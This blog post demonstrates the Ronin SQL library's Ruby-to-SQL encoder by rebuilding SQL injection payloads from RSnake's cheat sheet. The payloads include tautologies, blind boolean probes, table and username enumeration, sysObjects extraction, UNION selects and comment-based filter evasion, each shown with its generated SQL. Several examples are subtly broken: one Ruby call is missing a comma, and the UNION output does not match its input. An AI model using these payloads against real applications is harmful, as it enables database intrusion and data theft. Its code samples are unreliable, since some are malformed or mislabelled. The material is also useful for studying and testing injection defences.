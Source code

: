 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

Load `ronin/code/sql`:

{% highlight ruby %}
require 'ronin/code/sql' 
include Ronin

sql = Code.sql
{% endhighlight %}

Normal SQL Injection:

{% highlight ruby %}
sql[1, :or, 1, :eq, 1].to_sql
# => "1 or 1 = 1"
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight ruby %}
sql['1', :or '1', :eq, '1'].to_sql
# => "'1' or '1' = '1'"
{% endhighlight %}

Blind SQL Injection creating an error using EXEC:

{% highlight ruby %}
sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_sql
# => "1 exec sp_ (or exec xp_)"
{% endhighlight %}

Blind SQL Injection detection:

{% highlight ruby %}
sql[1, :and, 1, :eq, 1].to_sql
# => "1 and 1 = 1"
{% endhighlight %}

Blind SQL Injection to attempt to locate tablenames by brute-force
iteration through potential names:

{% highlight ruby %}
sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :tablenames]]].to_sql
# => "'1' and 1 = (select count(*) from tablenames)"
{% endhighlight %}

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

{% highlight ruby %}
sql[1, :and, sql.user_name(), :eq, 'dbo'].to_sql
# => "1 and user_name() = 'dbo'"
{% endhighlight %}

Creating errors by calling fake tables:

{% highlight ruby %}
sql[1, :and, :non_existant_table, :eq, '1'].to_sql
# => "1 and non_existant_table = '1'"
{% endhighlight %}

Dumping usernames:

{% highlight ruby %}
sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_sql
# => "or username is not null or username ="
{% endhighlight %}

Enumerating through database table names:

{% highlight ruby %}
sql[1, :and, sql.ascii(
  sql.lower(
    sql.substring(
      [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1
    )
  )
), :gt, 116].to_sql
# => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"
{% endhighlight %}

Finding user supplied tables using the sysObjects table in SQL Server:

{% highlight ruby %}
sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_sql
# => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"
{% endhighlight %}

Bypassing filter evasion using comment tags:

{% highlight ruby %}
stmt = sql[1, :union, :select, :all, :from, :where]
stmt.to_sql
# => "1 union select * from where"

stmt.to_sql(:spaces => false)
# => "1/**/union/**/select/**/*/**/from/**/where"
{% endhighlight %}

<div class="note">
  <p>
  I cheated a little by leaving off the prefix/suffix tick-marks used in
  SQL injections, but you get the general idea.
  </p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.
